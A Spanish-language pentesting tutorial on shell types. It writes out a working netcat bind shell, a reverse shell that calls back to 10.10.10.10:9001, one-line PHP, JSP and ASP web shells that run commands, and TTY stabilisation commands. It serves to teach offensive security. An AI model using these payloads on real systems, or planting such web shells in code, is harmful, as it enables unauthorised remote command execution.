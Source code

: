[<- Índice](../Pentesting.md)
# Tipos de Shell

Una vez que tenemos un vector claro de ataque sobre el objetivo, nuestro objetivo más deseable es el de conseguir una línea de comandos sobre el sistema para una comunicación más práctica.

> Una forma de conseguir esta línea de comandos es mediante *shells*. Particularmente, hay 3 tipos de *shells* que podríamos establecer en un sistema comprometido.

| Tipo de *Shell* | Descripción                                                                                                                                                                                       |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| *Bind Shell*    | El sistema comprometido habilita uno de sus puertos a la espera de que nos conectemos para brindarnos una línea de comandos. Nosotros somos los que estableecemos una conexión hacia el objetivo. |
| *Reverse Shell* | El sistema comprometido se conecta hacia nuestro equipo y brinda una línea de comandos. Se considera que la conexión es reversa pues es el objetivo el que se conecta a nosotros.                 |
| *Web Shell*     | Logramos establecer una forma de ejecutar comandos a través de un sitio web, es decir, logramos ejecutar comandos enviados a través de *HTTP* y obtener de vuelta la salida de estos comandos.    |

### Bind Shell

> Como dijimos anteriormente, el objetivo es habilitar un puerto del sistema comprometido y colocar una línea de comandos a la escucha, de modo que podamos conectarnos a dicho puerto y ejecutar comandos a través de este.

De ser factible, es una forma de conexión cómoda, pues si por cualquier motivo se pierde la conexión, podemos reconectarnos inmediatamente al puerto a la escucha.

Sin embargo, no siempre es posible establecer un puerto a la escucha ya sea por controles de red o por restricciones sobre la creación de procesos.

Un ejemplo de **carga útil** para obtener una *Bind Shell* es:

```bash
# Payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

El comando anterior, coloca en escucha a `/bin/bash` en el puerto 1234, de modo que a través de este puerto podemos ejecutar comandos de manera remota.

### Reverse Shell

> Una *Reverse Shell* es una de las *shells* más populares pues es una forma rápida, fácil y llamativa de obtener control sobre el sistema comprometido.

En esta ocasión, nosotros somos los que debemos colocar un puerto a la escucha en nuestro equipo, para posteriormente entregar una **carga útil** en el objetivo que inicie una conexión hacia nuestro puerto.

Para poner un puerto a la escucha, debemos iniciar un *listener* en nuestro equipo mediante un comando como `nc` o `ncat`.

```bash
# Listener en el úerto 9001
nc -lnvp 9001
```

Una vez este listo el *listener*, entregamos la **carga útil** que detona la conexión reversa hacia nuestro equipo en el puerto indicado.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

El comando anterior, genera una conexión de vuelta hacia nuestro equipo, proporcionandonos una línea de comandos en nuestro *listener*.

### Web Shell

> Una web shell, es típicamente un *script* o código en el lenguaje de programación del *backend* del servidor web. Este código recibe un comando a través de un parametro de una petición *GET* de *HTTP* y lo ejecuta para despues imprimir su salida en la página web.

Existen muchos códigos de *Web Shells*, mucho más complejos e incluso llamativos visualmente, pero algunos ejemplos simples de *Web Shell* son:

**Para backend `php`**

```php
<?php system($_REQUEST["cmd"]); ?>
```

**Para backend `jsp`**

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**Para backend `asp`**

```asp
<% eval request("cmd") %>
```

La clave de estos archivos es lograr ==cargarlos en algún directorio del servidor web== para poder ejecutarlos desde nuestro navegador.

Una vez logrado, simplemente tenemos que acceder a nuestro archivo desde nuestro navegador e indicar los comandos a ejecutar mediante el parametro específicado.

Por ejemplo, si logramos subir nuestra *Web Shell* de `php` como un archivo `shell.php` que recibe el parametro `cmd`, tendriamos que visitar la *URL*:

```url
http://inlanefreight.com/shell.php?cmd=id
```

Y obtendriamos una página:

```shell-session
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

De este modo, podemos ejecutar los comandos que deseemos sobre el equipo y visualizar su salida en `shell.php`.

Aunque muy útil, los otros tipos de *Shell* son más deseables y cómodos, por lo que usualmente utilizaremos esta *Shell* para escalar a una de las 2 anteriores.

## Estabilización a una Shell TTY

Ya sea al obtener una *Bind* o *Reverse Shell*, tendremos lo que se denomina una *Dumb Shell*, pues este tipo de terminales, aunque funcionales, carecen de varias características de una terminal *TTY* convencional, algunas poco graves como la falta de autocompletado, historial y del uso de flechas como cursor, pero otras más graves, como que no pueden utilizar `sudo` o `su` o que carecen de control de procesos `jobs`.

Entonces, es recomendable mejorar esta terminal mediante un proceso denominado ***Estabilización de Shell***.

> Básicamente, consiste en invocar una pseudoterminal *TTY* (una imitación vaya), y alterar ciertas propiedades específicas de nuestra propia terminal (donde ejecutamos el *listener*) y de la *Dumb Shell* obtenida.

No es un procedimiento precisamente intuitivo, simplemente se memoriza y se reproduce cuando se necesita, y es el siguiente:

***Invocación de psuedoterminal***

```bash
#
# DumbShell
#
python -c 'import pty ; pty.spawn("/bin/bash")'
```

o alternativamente:

```bash
#
# DumbShell
#
script /dev/null -qc /bin/bash
```

***Estabilización***

Primero debemos suspender y mandar a segundo plano nuestra *DumbShell* con el atajo *Ctrl+Z*, una vez realizado, regresaremos a nuestra terminal y ejecutaremos los siguientes comandos

```bash
#
# Terminal
#
stty -a
```

Esto nos indicará cuantas columnas y filas posee nuestra terminal, asi que debemos recordar dichos valores. Para este ejemplo supondremos que es 48 filas (rows) y 175 columnas (cols).

Continuamos con el comando

```bash
#
# Terminal
#
stty raw -echo ; fg
```

Este comando, altera nuestra terminal y trae devuelta la *DumbShell* del segundo plano.

Esto ya estabilizo de una manera un poco bruta la terminal, pero debemos darle unos toques finales con los comandos:

```bash
#
# DumbShell
#
export TERM=screen
stty rows 48 cols 175 # Los valores anotados
reset
```

Finalmente, tendremos una terminal *TTY* completa, con todas las características que carecía anteriormente.

# Enlaces